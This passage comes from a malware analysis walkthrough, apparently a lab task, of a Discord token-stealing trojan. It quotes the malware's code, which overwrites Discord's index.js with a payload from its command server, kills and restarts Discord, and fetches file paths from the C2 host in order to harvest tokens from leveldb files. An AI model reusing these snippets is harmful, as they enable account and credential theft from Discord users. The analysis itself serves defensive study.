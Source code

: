                const data = await request.json();

                writeFileSync(discord_index, data?.discord, {
                    flag: 'w'
                });



Then it kills and restarts the current discord process:



                await kill(['discord', 'discordcanary', 'discorddevelopment', 'discordptb']);
                exec(`${join(dir, 'Update.exe')} --processStart ${dir?.split(process.env.LOCALAPPDATA)?.[1]?.replace('\\', '')}.exe`, function(err) {
                    if(err) {};
                });



The victim better clean up the discord_desktop_core-1 module's
`index.js` (Task 13). Checking on a Windows machine of mine that has
Discord installed, the main application seems to be installed at
`%APPDATA%\Local\Discord\app-1.0.9041`. In that directory, there's a
`modules` directory:

![](/img/image-20240417132149295.png)

A couple directories down is `index.js`:

![](/img/image-20240417132239112.png)

The non-trojaned `index.js` is a single line to load the ASAR file:



    module.exports = require('./core.asar');



I wasn't able to get a copy of the one that the malware C2 deploys, as
`illitmagnetic.site` is down as of the time of my analysis.

#### Collect Tokens From App

The second block called in the main function calls `getDiscordTokens`.
It starts by making a request to the C2 for a list of paths:



        const request = await fetch(options.api + 'paths', {
            method: 'GET',
            headers: {
                'Content-Type': 'application/json',
                'duvet_user': options.user_id
            }
        });



Then it loops over these paths, looking for `.ldb` (leveldb) and `.log`
files:
